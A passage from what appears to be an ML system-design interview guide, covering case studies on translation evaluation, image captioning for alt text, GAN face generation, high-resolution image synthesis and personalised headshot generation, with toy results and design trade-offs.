| Hallucinated sentence (output unrelated to input) | QE and length-ratio checks; retry with a different model; flag |
| New model regresses one pair | Per-pair gates; per-pair routing so the old model keeps that pair |
| Cache serves translation from an old model | Model version is part of the cache key |

### Follow-ups (Q→A)
- **Q: "BLEU went up but users complain."** A: BLEU rewards overlap with one reference: the toy scores a correct paraphrase 0.31 and a wrong-meaning sentence 0.29. Check COMET and a human MQM sample; BLEU is a regression alarm, not a launch criterion.
- **Q: "Add a language with almost no parallel data."** A: Mine what exists, back-translate monolingual text, rely on transfer from related languages in the multilingual model, evaluate with native speakers before launch.
- **Q: "Why not pivot through English?"** A: Two hops double latency and compound errors (losing what English doesn't mark, such as formality); direct multilingual models avoid both, but pivoting is a reasonable fallback for rare pairs.
- **Q: "Could an LLM replace the NMT model?"** (NMT = neural machine translation, the dedicated encoder-decoder.) A: For top languages LLMs translate well and follow instructions (tone, glossary) but cost more per token and are weaker on low-resource languages. Route high-value document translation to an LLM and bulk traffic to NMT — evaluate both on the same per-pair suites.

### What separates levels, and variations
Mid-level describes an encoder-decoder with beam search; senior settles one-model-vs-9,900, names back-translation and per-pair evaluation and sizes the cache; staff treats quality as per-pair contracts with gates, QE-based routing, and glossary/formatting as product features. **Variations:** *speech-to-speech interpretation* (streaming ASR → translation waiting for enough context → TTS; latency vs accuracy is the whole design) and *app-string localisation* (short strings without context — add screenshots or developer notes and a human review queue).

### Toy: language ID, BLEU and a segment cache (`code/translation_toy.py`)
BLEU is implemented from scratch: clipped n-gram precision (n = 1–4, counts clipped by the max in any reference, add-one smoothing for n > 1), geometric mean, times a **brevity penalty** exp(1 − ref_len / cand_len) for short candidates.
```
1) Language ID (character trigrams)
   'we will send the report on friday'      -> en (margin 0.85)
   'enviaré el informe el viernes'          -> es (margin 0.92)
   'nous allons à la gare'                  -> fr (margin 0.70)
   'wir gehen in den park'                  -> de (margin 0.90)
   'hotel'                                  -> es (margin 0.46)  <- low margin: ask the user / use the UI language
   'ok'                                     -> es (margin 0.02)  <- low margin: ask the user / use the UI language

2) BLEU against one reference
   exact                       BLEU 1.000   'please send me the report before friday'
   correct paraphrase          BLEU 0.307   'could you email me the report by friday'
   wrong meaning, same words   BLEU 0.286   'please send the report to me after friday'
   word salad                  BLEU 0.263   'report the friday me send before please'
   add a 2nd human reference 'could you email the report to me by friday': paraphrase BLEU 0.481

3) Sentence cache under Zipf traffic (assumed Zipf s=1.1; 200k requests over 500k distinct segments)
   LRU capacity  1,000 segments -> hit rate 61.4%
   LRU capacity 10,000 segments -> hit rate 76.9%
   LRU capacity 50,000 segments -> hit rate 81.2%
```
"hotel" is spelled the same in all four languages, so detection is a guess and the margin says so. BLEU can't separate a correct paraphrase (0.31) from a sentence saying *after* instead of *before* (0.29) or word salad (0.26); a second reference helps (0.48) but never fixes it — hence COMET and humans. The cache curve flattens: the first thousand segments do most of the work.

### TL;DR
One multilingual encoder-decoder with language tags (plus distilled students for top pairs) instead of 9,900 models; shared subword vocabulary; back-translation for low-resource languages; segment, protect, cache, batch; evaluate per pair with chrF/COMET and human MQM, never BLEU alone; quality estimation flags uncertainty.

---

## 14.10 Case: image captioning

> **The question (paraphrased).** A photo-sharing platform wants automatic captions — used as **alt text** for blind and low-vision users (read aloud by screen readers) and for search. 100M images are uploaded per day.

### Requirements (minutes 0–8)
**Recognition.** "**Conditional text generation**: an image encoder turns pixels into vectors and a text decoder writes the caption attending to them ([§10.8](../10-generative-models-beyond-text/README.md), [§4.12](../04-large-language-models/README.md)). The user *cannot see the image*, so a confident wrong caption is worse than a vague right one."

**Success.**
- *Primary:* **usefulness rated by screen-reader users** on a sample — does the caption say what matters?
- *Guardrails:* **hallucination rate** (objects mentioned but absent — **CHAIR**, the share of mentioned objects not in the image; Rohrbach et al., 2018), offensive or sensitive-attribute captions (none found in the red-team set), caption availability at view time.

**Latency.** Caption **asynchronously at upload** — posts are usually viewed seconds or minutes later; if viewed first, show "image" plus any uploader text, never block the post. **Scope:** one-sentence descriptions; private people's faces are *not* named; text inside images is read by OCR as a separate signal.

### Approach: data and model (minutes 8–18)
- **Architecture history in one breath:** **CNN** (convolutional image model) encoder + **LSTM** (older recurrent sequence model) decoder (*Show and Tell*, Vinyals et al., 2015) → a decoder that **attends** to image regions per word (*Show, Attend and Tell*, Xu et al., 2015) → Transformer encoders (**ViT**, image patches as tokens; Dosovitskiy et al., 2021) → today: a **frozen pretrained image encoder** (e.g. CLIP's, Radford et al., 2021) joined by a small trainable bridge to a **pretrained language model** (BLIP-2, Li et al., 2023). The bridge is cheap to train; both big parts are reused.
- **Data:** human captions (COCO Captions: ~120k images × five captions; Chen et al., 2015) are clean but small and narrow; web **alt-text pairs** (Conceptual Captions, Sharma et al., 2018; billions more later) are huge but noisy — many are file names or **SEO** keywords. Filter with an image-text similarity model and **bootstrap**: caption web images with your model, then an image-text matching filter drops every mismatched pair — original alt text or synthetic (BLIP's *CapFilt*, Li et al., 2022).
- **Alt-text style is a fine-tuning target.** Accessibility guidelines prefer concise, concrete descriptions ("A golden retriever catching a frisbee on a lawn") over "an image of…"; fine-tune on captions written to that style guide ([§8.2](../08-prompting-vs-finetuning-vs-rag-and-llm-evaluation/README.md)).
- **Decoding:** beam search yields safe, generic captions; the fix for *hallucinated* content is **grounding**, not a decoding trick: rerank beam candidates by how well each mentioned object is supported by an **object detector** (finds and labels objects) or an image-text score.

### Architecture (minutes 18–30)
**Envelope:** 100M images/day ≈ **1,160/s**. Per image: a ViT-L-sized encoder (~300M parameters over ~200 patch tokens: 2 × 3 × 10⁸ × 200 ≈ 1.2 × 10¹¹ FLOPs) plus ~30 tokens from a ~1B-parameter decoder (2 × 10⁹ × 30 ≈ 6 × 10¹⁰) ≈ 2 × 10¹¹ FLOPs; × 1,160/s ≈ 2 × 10¹⁴ FLOP/s — a small GPU pool, since the work is async and batches perfectly.



- **Queue at upload**, batch on GPUs, store the caption with model version and scores. Re-captioning the back catalogue after an upgrade is a planned, priced batch job.
- **Grounding rerank:** the decoder proposes candidates; the detector's object list (and OCR text) scores them; captions mentioning undetected objects lose — CHAIR 0.25 → 0.00 in the toy.
- **The policy step** enforces rules no model should decide: don't infer gender, race, age, religion, health or sexual orientation from appearance; don't name people; use "person" for "man/woman" when policy requires; drop the caption if a safety classifier fires.
- **Uploader edits win** — the screen reader uses a human caption when one exists; edits become evaluation data.

### Evaluation and the loop (minutes 30–38)
- **Reference-based:** BLEU, METEOR, **CIDEr** (n-gram agreement with several human references, TF-IDF-weighted so rare, informative words count more; Vedantam et al., 2015) and **SPICE** (compares objects, attributes and relations in a **scene graph** — structured objects-and-relations list; Anderson et al., 2016).
- **Reference-free:** **CLIPScore** (image-caption similarity from CLIP; Hessel et al., 2021) — usable at scale on your own traffic.
- **Hallucination:** CHAIR on a labelled set.
- **Humans decide:** screen-reader user sessions rate usefulness, tuning the style guide and policy.

### Scaling and cost
Async batching keeps GPUs full. Cheaper models caption low-traffic images; high-traffic posts can be re-captioned by a larger one. Skip near-duplicates via a **perceptual hash** (fingerprint similar for visually similar images) and reuse their captions.

### Safety
Captioning systems have a documented history of offensive labels on photos of people. Defences: the attribute policy, a red-team set of people images across demographics, a caption safety classifier, fast takedown, and "person" always acceptable. If captions later feed an LLM (image Q&A), OCR'd text *inside* images is untrusted — it can carry prompt injection ([§12.4](../12-safety-ethics-governance/README.md)).

### Failure modes
| Failure | Response |
|---|---|
| Caption not ready at first view | Show uploader text or "image"; caption fills in later |
| Hallucinated object | Grounding rerank; CHAIR regression gate; user report → eval set |
| Sensitive-attribute guess | Policy rewrite or drop; red-team gate on each model version |
| Model upgrade | Versioned captions; re-caption in background, keep old ones until replaced |

### Follow-ups (Q→A)
- **Q: "CIDEr went up but blind users rate captions worse."** A: CIDEr rewards agreement with COCO-style references, not usefulness. Re-weight toward the human study and the style guide.
- **Q: "Use a big multimodal LLM instead?"** A: Richer captions and follow-up answers, but costlier and fluent hallucination. Cascade: a small captioner for everything, the large model when a user asks for more detail.
- **Q: "Caption a screenshot of a document?"** A: Detect text-heavy images and switch to OCR plus a short summary; "a screenshot" helps nobody.
- **Q: "Can captions improve search?"** A: Yes — index caption text and image embeddings, but search should use the embedding directly and treat captions as one more field.

### What separates levels, and variations
Mid-level gives encoder + decoder + beam search; senior makes it async, measures hallucination and adds grounding; staff designs for the actual user (who can't check the caption), puts attribute policy outside the model and plans back-catalogue re-captioning. **Variations:** *video description* (caption keyframes, then summarise — §14.14 recaptions training videos this way) and *product-photo attributes for e-commerce* (structured outputs — colour, material — validated against the catalogue).

### Toy: grounding rerank and CHAIR (`code/caption_toy.py`)
```python
def grounding_penalty(caption, detected):
    return sum(not supported(o, detected) for o in mentioned(caption))   # objects the detector did not see

def rerank(beams, detected, alpha=2.0):
    return max(beams, key=lambda b: b[1] - alpha * grounding_penalty(b[0], detected))
```
```
image | pick by model log-prob only            | pick after grounding rerank
img1  | a dog playing with a ball on the grass  | a dog jumping for a frisbee on the grass
img2  | a cat sitting on a sofa next to a laptop | a cat sleeping on a sofa
img3  | a man riding a bicycle down a street    | a man riding a bicycle down a street
img4  | a pizza on a plate with a cup of coffee | a pizza on a plate on a table
log-prob only     CHAIR_i 0.25 (hallucinated objects / objects)  CHAIR_s 0.75 (captions with one)  consensus 1.76
grounding rerank  CHAIR_i 0.00 (hallucinated objects / objects)  CHAIR_s 0.00 (captions with one)  consensus 3.62

alt-text policy (do not infer gender from appearance):
  model: 'a man riding a bicycle down a street'
  shown: 'a person riding a bicycle down a street'
```
The most probable captions invent a ball, a laptop (detector confidence 0.35) and a cup of coffee — three of four contain a hallucination. The reranker picks detector-supported candidates and the CIDEr-style consensus score roughly doubles; the policy step rewrites a gender guess made from appearance.

### TL;DR
Frozen image encoder + bridge + LM, trained on clean human captions plus filtered web alt text; caption async at upload; rerank for grounding and measure hallucination with CHAIR; CIDEr/SPICE/CLIPScore for regressions, but screen-reader users decide; attribute policy outside the model.

---

## 14.11 Case: realistic face generation with GANs

> **The question (paraphrased).** A stock-media company wants photorealistic portraits of **people who do not exist** — for ads, game avatars and privacy-safe test data. Customers browse and filter thousands of faces, and new ones are generated on demand. Design the generator and the service.

### Requirements (minutes 0–8)
**Recognition.** "**Unconditional image generation** in one narrow domain — faces — where a **GAN** ([§10.3](../10-generative-models-beyond-text/README.md)) is still strong: one forward pass per image, very sharp output, and a steerable **latent space** (the input codes the generator turns into images). The two promises: *realistic* and *not a real person*."

**Success.**
- *Primary:* **realism judged by people** — raters can't reliably tell generated from real at the delivered resolution — tracked daily with **FID** (Fréchet Inception Distance between real and generated feature statistics; lower is better; Heusel et al., 2017; [§10.9](../10-generative-models-beyond-text/README.md)).
- *Diversity:* coverage of ages, skin tones, hairstyles, accessories — attribute classifiers and **precision/recall for generative models** (precision = share of samples that look real; recall = share of real variety produced; Kynkäänniemi et al., 2019).
- *Binding guardrail:* **no memorised identities** — no output may near-copy a training face.

**Latency.** Tens of milliseconds on a GPU, so on-demand is easy; browsing can use a pre-generated, pre-screened pool. **Scope:** 1024 × 1024 portraits, controllable attributes (age, expression, pose); no generation of specific real people.

### Approach: data and model (minutes 8–18)
- **Data:** high-quality, **consented and licensed** portraits, aligned so eyes and mouth sit at fixed positions (much easier task). Research used FFHQ — 70,000 Flickr faces at 1024² (Karras et al., 2019) — but a commercial product needs model-release consent from every photographed person (a legal requirement). Balance by attribute and **deduplicate identities**, since repeated identities are the ones memorised.
- **Model family: StyleGAN** (Karras et al., 2019; StyleGAN2, 2020):
  - A **mapping network** turns noise *z* into an intermediate code *w* whose directions are more *disentangled* (one changes age, another pose).
  - The generator starts from a learned constant and injects *w* as a **style** at every resolution: coarse layers control pose and face shape, middle layers hairstyle and eyes, fine layers colour scheme and micro-detail.
  - Per-pixel **noise inputs** add random fine detail (freckles, hair placement) without changing identity.
  - The earlier **Progressive GAN** (Karras et al., 2018) grew resolution step by step; StyleGAN2 replaced that with other architectural fixes.
- **Training loop:** the discriminator learns real vs fake, the generator to fool it (Goodfellow et al., 2014). Key stabilisers: the **non-saturating loss** (still gives useful gradients when the discriminator wins easily), **R1 regularisation** (penalise the discriminator's gradient on real images), an **exponential moving average** (smoothed running average weighting recent values most) of generator weights for sampling, and **adaptive discriminator augmentation** with limited data (StyleGAN2-ADA, Karras et al., 2020).
- **Known failure: mode collapse** — the generator stops producing whole groups (e.g. an age group). Watch coverage metrics, not losses: GAN losses don't fall steadily like a classifier's.
- **The truncation trick** (Brock et al., 2019; used by StyleGAN): sample *w* closer to its average — quality up, diversity down: a **product knob**, not a training choice.

### Architecture (minutes 18–30)
**Envelope:** 10M faces/day ≈ **116/s** × ~0.05 GPU-s ≈ **6 busy GPUs** — cheap. The expensive parts are training (weeks of multi-GPU time) and screening.



- **Attribute control** from directions in *w* space: fit a simple classifier (e.g. smiling vs not) on generated samples; its **normal vector** (perpendicular to the decision boundary) is an edit direction — sliders without retraining.
- **Memorisation check:** embed each output with a face-recognition model (e.g. **ArcFace**, Deng et al., 2019), search the nearest training identity, discard above a similarity threshold — "does not exist" becomes a measured claim.
- **Artefact check:** a small classifier trained on rejected samples filters typical GAN failures (mismatched earrings, melted glasses, background blobs).
- **Provenance:** invisible watermark plus C2PA content credentials on every image ([§10.10](../10-generative-models-beyond-text/README.md)).

### Evaluation and the loop (minutes 30–38)
- **FID on 50,000 samples** at fixed preprocessing per **checkpoint** (saved weight snapshot); choose checkpoints by FID *and* precision/recall, since FID mixes the two.
- **Attribute distribution** vs target; a skew is a bias finding, not just quality.
- **Human realism tests** before each release; customer rejections and reports feed the artefact classifier.

### Scaling and cost
Serving is cheap; a pre-generated pool of a few million screened faces answers most browsing. Retraining dominates — reuse checkpoints and fine-tune for new styles (e.g. studio lighting).

### Safety
Synthetic faces are the standard ingredient of **fake social-media profiles**. Mitigations: provenance on every image, rate limits and **know-your-customer** checks (verifying buyers' identities) for bulk buyers, terms banning impersonation and fraud, detection signatures shared with platforms. Deliberately **not** offered: editing uploaded photos of real people (a deepfake product with different risks — [§12.7](../12-safety-ethics-governance/README.md)).

### Failure modes
| Failure | Response |
|---|---|
| Mode collapse during training | Coverage alarm; roll back to the last good checkpoint; adjust augmentation or regularisation |
| Output resembles a training person | Identity near-duplicate filter; remove that identity and retrain or fine-tune |
| Demographic skew in outputs | Rebalance data or sample latents to a target attribute mix; report both |
| Artefacts in a delivered image | Customer report → artefact classifier training set; refund |

### Follow-ups (Q→A)
- **Q: "Why a GAN, not diffusion?"** A: For one narrow domain a GAN gives one-pass generation (vs tens of denoising steps — an order of magnitude or more cheaper per image) and a steerable latent space. Diffusion wins on diversity and text conditioning; if customers want "a nurse in her 60s, laughing, outdoors" as free text, switch to diffusion with face-specific fine-tuning.
- **Q: "Discriminator loss is flat — broken?"** A: Not necessarily; the loss measures a moving game, not quality. Track FID, precision/recall and sample grids.
- **Q: "Prove a face isn't a real person?"** A: Not about everyone alive; you can show it isn't close to anyone *in your training set* (whom it could have memorised), and label it synthetic.
- **Q: "More variety."** A: Raise ψ (psi, truncation strength; 1 = none) for less truncation, sample latents stratified by attribute, check recall — at the cost of more artefacts to filter.

### What separates levels, and variations
Mid-level explains generator vs discriminator; senior names StyleGAN's mapping network, mode collapse, FID with precision/recall and truncation as a product knob; staff turns "not a real person" and "consented data" into measured pipeline steps and prices the pre-generated pool. **Variations:** *synthetic data for face-recognition testing* (diversity and label control over beauty) and *game avatar generation* (stylised domain, fine-tuned from the photoreal model).

### Toy: mode dropping, FD and truncation (`code/gan_faces_toy.py`)
Eight Gaussian modes on a ring stand in for eight kinds of face; a small GAN with the non-saturating loss learns them on the CPU; truncation samples `G(psi * z)`.
```
step  | D loss | G loss | modes covered | high quality | FD (lower is better)
  250 |  1.130 |  0.976 |       8/8       |       13.0% | 0.0147
 1000 |  1.194 |  1.104 |       7/8       |       73.0% | 0.0487
 2000 |  1.250 |  0.960 |       7/8       |       87.4% | 0.0563
 4000 |  0.956 |  1.421 |       7/8       |       60.4% | 0.0659

Truncation trick at sampling time: z ~ psi * N(0, I)  (no retraining)
  psi  | modes covered | high quality | FD
  1.0  |       7/8       |       60.7% | 0.0643
  0.7  |       7/8       |       66.1% | 0.0540
  0.4  |       7/8       |       68.8% | 0.1194
  0.1  |       5/8       |       62.4% | 2.2917
```
Three lessons: **the losses say nothing** about progress. **FD on raw points misleads**: at step 250 the samples are a blurry smear around the ring (13% sharp) yet FD is lowest, because a smear has the right mean and covariance — real FID uses rich image features, with precision/recall beside it. **Mode dropping is real**: one mode is lost by step 1,000 and never recovered. Truncation raises sharpness a little (61% → 69%) then costs diversity (7 → 5 modes at ψ = 0.1).

### TL;DR
StyleGAN-style generator (mapping network, per-layer styles, noise) on consented, aligned, identity-deduplicated faces; watch coverage and FID with precision/recall, not losses; truncation is a quality-vs-diversity knob; a face-embedding near-duplicate filter makes "not a real person" measurable; provenance and customer controls against fake profiles.

---

## 14.12 Case: high-resolution image synthesis

> **The question (paraphrased).** Our image generator makes good 512 × 512 pictures. Customers want 2048 × 2048 for print and wallpapers — sharp in every detail — at a cost per image not much higher than today. Design the model pipeline.

### Requirements (minutes 0–8)
**Recognition.** "Cost grows much faster than pixel count, so **don't generate pixels directly**: compress into a smaller latent or token space, generate there, decode — possibly plus a **cascade** that generates small and super-resolves. [§10.4–§10.5](../10-generative-models-beyond-text/README.md) with the arithmetic aloud."

**Success.**
- *Primary:* **human preference at full resolution**, on crops (detail) and the whole image (composition).
- *Automatic:* FID on downsampled images tracks realism but is **blind to fine detail**, so also FID on random high-resolution crops (patch FID), and CLIP score for prompt alignment.
- *Guardrails:* **cost per image** (GPU-seconds) and high-resolution artefacts — repeated objects, duplicated heads, tiling seams.

**Latency.** Seconds to tens of seconds; a low-resolution preview first. **Scope:** text-to-image up to 2048², arbitrary aspect ratios; no editing.

### Approach: data and model (minutes 8–18)
**The arithmetic that forces the design** (from the toy): a 1024² **RGB** image is 3.1M numbers; as pixels it's 1M tokens — ~10¹² **attention pairs** (every token compared with every other). A latent autoencoder with downsampling **f = 8** gives a 128 × 128 × 4 latent (65,536 numbers, **48× fewer**), and 2 × 2 patches make 4,096 tokens. Doubling the side to 2048² multiplies tokens by 4 and attention pairs by **16**.

| Approach | How it works | Strength | Weakness |
|---|---|---|---|
| **Latent diffusion** (Rombach et al., 2022) | An autoencoder compresses; diffusion denoises in latent space; the decoder restores pixels | One model; compute where it matters | The autoencoder caps detail — its reconstructions set the ceiling |
| **Cascaded diffusion** (Ho et al., 2022; Imagen, Saharia et al., 2022) | A base model generates 64²; super-resolution diffusion upscales 64 → 256 → 1024 | Each stage small; the base sees 256× fewer pixels than one-shot 1024² | Errors compound; needs *noise-conditioning augmentation* so upscalers tolerate imperfect inputs |
| **Discrete tokens + transformer** (VQ-VAE, van den Oord et al., 2017; VQGAN, Esser et al., 2021) | A codebook turns patches into token IDs; a transformer generates tokens; the decoder paints pixels | Reuses LLM machinery | Many sequential steps; codebook quality limits fidelity |

**Say aloud:** latent diffusion with a **diffusion transformer** backbone (DiT; Peebles and Xie, 2023) at 1024², plus a **latent upscaler** to 2048², trained on genuinely high-resolution images.

**Data for high resolution:**
- Keep only images at or above target resolution; upsampled low-res images teach blur.
- **Aspect-ratio bucketing** (group training images by shape instead of square-cropping) and **conditioning on original size and crop coordinates** (both in SDXL, Podell et al., 2023) stop the model learning that heads get cut off at the edge.
- Train the autoencoder carefully — a **perceptual** loss (compares images as a vision network sees them) and an **adversarial** loss keep textures sharp — since every image passes through its decoder.

### Architecture (minutes 18–30)


- **Generate at the trained resolution**, then upscale. Asking a 1024² model directly for 2048² tends to produce **repetition** (two heads, duplicated towers), because each region looks locally like a whole image.
- **Upscale only what users keep.** 1024² previews cost a quarter of the tokens; the expensive stage runs on the one selected image (§14.4's "upscale on selection" economics).
- **Tiled decoding** splits the final decode into overlapping, blended tiles so GPU memory stays bounded without seams.
- **Memory:** attention over 16,384 tokens (2048² at f = 8, 2 × 2 patches) needs memory-efficient attention **kernels**; batch sizes shrink and throughput per GPU falls.

### Evaluation and the loop (minutes 30–38)
- **Crop-level human evaluation** (faces, text, hands, fabrics) against the previous model and a strong upscaler baseline.
- **Patch FID** plus FID at a fixed downsampled size; **autoencoder reconstruction quality** (PSNR and perceptual metrics) as its own gate — if the decoder smears, nothing upstream can fix it.
- **Artefact rates** (duplication, seams) from a classifier and user reports.

### Scaling and cost
Say it explicitly: 2048² one-shot has 4× the tokens and ~16× the attention work of 1024²; the cascade adds a few upscaler steps instead of multiplying every denoising step. Further levers: fewer sampling steps via distillation, caching the text encoding, upscaling only selected images.

### Safety
The §14.4 prompt and image gates; high resolution makes forged documents and likenesses more convincing, so provenance (watermark + C2PA) is attached at the final stage, after upscaling.

### Failure modes
| Failure | Response |
|---|---|
| Duplicated subjects at high resolution | Generate at trained resolution then upscale; artefact classifier |
| Blurry textures | Check the autoencoder first (reconstruction gate), then data resolution filters |
| Upscaler invents details that change the content | Condition strongly on the base latent; limit upscaling steps; compare downsampled output to base |
| GPU out-of-memory at 2048² | Tiled decode, memory-efficient attention, smaller batches — sized before launch |

### Follow-ups (Q→A)
- **Q: "Why not a classic super-resolution network on the 1024² output?"** A: The cheapest baseline — measure it. It sharpens edges but can't invent plausible detail; a generative upscaler can, at the risk of changing content — decide by crop-level human evaluation.
- **Q: "Compress more (f = 16 or 32) to save compute."** A: Tokens drop 4× or 16×, but reconstructions lose fine detail; only worth it with more latent channels and a better decoder — the toy shows the same trade (smaller codebook → higher compression, lower PSNR).
- **Q: "Pixel-space patches give the same token count — why a latent?"** A: 16 × 16 pixel patches also give 4,096 tokens, but each must produce 768 values instead of 16; the autoencoder already removed imperceptible detail, so the generator spends capacity on content.

### What separates levels, and variations
Mid-level says "use a bigger model"; senior does the token arithmetic and chooses between latent diffusion, cascade and tokens with reasons; staff designs the preview-then-upscale flow, gates the autoencoder and prices the 16× attention growth. **Variations:** *panoramas and wallpapers* (wide aspect ratios: bucketing, or overlapping diffusion windows fused) and *product photos at print resolution* (text and logos must stay exact — composite real assets instead of generating them).

### Toy: token arithmetic and a VQ codebook (`code/latent_compression.py`)
A k-means codebook (4–256 entries) replaces each 4 × 4 patch of a 64 × 64 image with its nearest code; the "decoder" pastes code vectors back.
```
1) How long is the sequence the generator must model? (attention cost ~ tokens^2)
   representation                                    tokens  values/token  attention pairs vs f=8
   pixels, 1 token per pixel                      1,048,576             3   6.554e+04x
   pixels, 16x16 patches                              4,096           768           1x
   latent f=8 (128x128x4), 2x2 patches                4,096            16           1x
   latent f=32 (32x32x16), 1 token per position       1,024            16      0.0625x
   values per image: pixels 3,145,728 vs f=8 latent 65,536 -> 48x fewer numbers to denoise
   cascade: base model at 64x64 (4,096 px) then super-resolution 64->256->1024; the base sees 256x fewer pixels than one-shot 1024x1024 generation

2) Toy VQ autoencoder on 64x64 images (4x4 patches -> one code each; held-out image)
   codebook | bits/patch | compression vs 8-bit pixels | PSNR dB (higher is better)
          4 |          2 |                     64x      |   19.6
         16 |          4 |                     32x      |   22.0
         64 |          6 |                     21x      |   24.0
        256 |          8 |                     16x      |   25.3
   (the generator then models 256 code indices per image instead of 4,096 pixels)
```
Each codebook step up buys ~1.3–2.4 dB of reconstruction quality and costs compression — the same trade that sets the real autoencoder's *f*, and why the decoder caps the whole system.

### TL;DR
Never generate megapixels directly: compress (f = 8 → 48× fewer numbers), generate in latent space at the trained resolution, upscale only selected images with a latent or cascaded super-resolution stage; high-resolution data, aspect buckets, size conditioning; gate the autoencoder; evaluate on crops (FID is blind to detail); 2× side = 4× tokens = 16× attention.

---

## 14.13 Case: personalised headshot generation

> **The question (paraphrased).** Users upload 10–20 selfies, pay once, and within an hour receive ~40 professional headshots in chosen styles (studio, outdoor, business casual) that clearly look like them. Expect 20,000 new users a day. Design it.

### Requirements (minutes 0–8)
**Recognition.** "**Subject-driven generation**: teach a pretrained text-to-image diffusion model one new identity from a few photos, then render it in new scenes. The design question is *per-user fine-tuning* vs a *zero-shot identity encoder*; the product is really a **per-user GPU job pipeline** holding **biometric** data (body measurements such as face geometry that identify a person) ([§8.2](../08-prompting-vs-finetuning-vs-rag-and-llm-evaluation/README.md), [§10.5](../10-generative-models-beyond-text/README.md))."

**Success.**
- *Primary:* **"looks like me" rate** — share of delivered photos kept or downloaded; proxy: **identity similarity**, cosine similarity of face-recognition embeddings (e.g. ArcFace) of outputs vs uploads.
- *Quality:* realism and style fidelity (human ratings; CLIP score vs the style prompt).
- *Guardrails:* refund rate, **generation of someone other than the account holder** (consent violations), time to delivery (p90 under an hour).

**Scope.** Fixed style catalogue (no free-text prompts in v1 — removes most abuse), adults only, photos deleted on a fixed schedule.

### Approach: data and model (minutes 8–18)
**Two ways to inject an identity:**

| Approach | How | Identity fidelity | Cost and latency |
|---|---|---|---|
| **Per-user fine-tuning** — DreamBooth (Ruiz et al., 2023), usually with **LoRA** (Hu et al., 2022) | Train on the user's photos, binding the face to a rare token: "a photo of [v] person" | Highest — learns details a single embedding misses | GPU minutes per user; minutes-to-hour latency; one adapter file per user |
| **Zero-shot identity encoder** — e.g. IP-Adapter (Ye et al., 2023), InstantID (Wang et al., 2024) | A pretrained encoder turns a face photo into conditioning vectors at generation time | Good, weaker on unusual features | No training; seconds; nothing per-user stored |

**Recommendation:** per-user LoRA for the paid product (users pay for likeness), a zero-shot encoder for an instant free preview.

**How the fine-tuning works:**
- **Rare-token binding.** An identifier with no strong meaning ("[v]") absorbs the new face instead of overwriting a common word. (Textual Inversion, Gal et al., 2022, learns only a new token embedding — cheapest, weaker identity.)
- **LoRA:** freeze base weights *W* and learn a low-rank update *B·A* (rank *r* 4–64) in attention layers; adapters are megabytes, and many users' adapters share one base model in GPU memory ([§8.2](../08-prompting-vs-finetuning-vs-rag-and-llm-evaluation/README.md)).
- **Prior preservation.** Fine-tuning on one face makes *every* "person" look like the user (the model forgets the class — DreamBooth's *language drift*). Fix: also train on images the *frozen* model generates for "a photo of a person", with a loss keeping those outputs unchanged (the toy quantifies it).
- **Overfitting.** Too many steps copies the uploads' backgrounds, clothes and pose. Use few steps (hundreds to ~a thousand), **augmentation** (crops, flips), and **early stopping** on identity-vs-diversity metrics.

**Input quality decides output quality.** Before any GPU time: exactly one face per photo; reject blur, heavy filters, sunglasses, near-duplicates; require varied angles and lighting; **check all photos show the same person** by **clustering** face embeddings — also the consent control.

### Architecture (minutes 18–30)
**Envelope** (illustrative, from the toy): training ~12 GPU-minutes per user × 20,000 users/day = 4,000 GPU-hours/day ≈ **167 GPUs busy around the clock**, ≈ $0.60 per user at $3/GPU-hour; inference 40 portraits × ~6 GPU-s ≈ $0.20 per user ($0.40 with 2× over-generation, below); one rank-16 adapter ≈ 8 MB. Price against ~$1 of GPU per user.



- **Training is a batch job with an SLA** (a promised deadline): queued, idempotent retries (a crash restarts from its last checkpoint), paid-priority users first. Workers keep the base model loaded; each job loads only the user's photos.
- **Many adapters, one base model.** Batch different users' requests on one GPU and apply each request's LoRA update on the fly (as in multi-LoRA systems such as S-LoRA; Sheng et al., 2023); no per-user model copy exists.
- **Over-generate and select.** Generate ~2× the delivered count, score identity similarity, style match and artefacts, deliver the best 40 — cheaper than a failed order.
- **Deletion is part of the pipeline**: photos, adapter and outputs carry a time-to-live, and a deletion job verifies removal from storage, caches and backups.

### Evaluation and the loop (minutes 30–38)
- **Identity similarity distribution** per style (heavy stylisation and profile views lose identity).
- **Prior drift check** per model version: generic "person" images with the adapter loaded must not look like the user.
- **Human panel** on likeness and realism; keep/refund rates by style feed the catalogue.
- **Fairness:** identity similarity and keep rate by skin tone, age and gender presentation — a group getting worse likeness is paying for a worse product.

### Scaling and cost
GPU spend is mostly training (60–75% in the illustrative numbers, depending on over-generation). Levers: fewer steps with better initialisation, lower rank, smaller training resolution, pre-computed text encodings, the zero-shot encoder for users wanting few images. Spread training across off-peak capacity — most users accept "within an hour".

### Safety and privacy
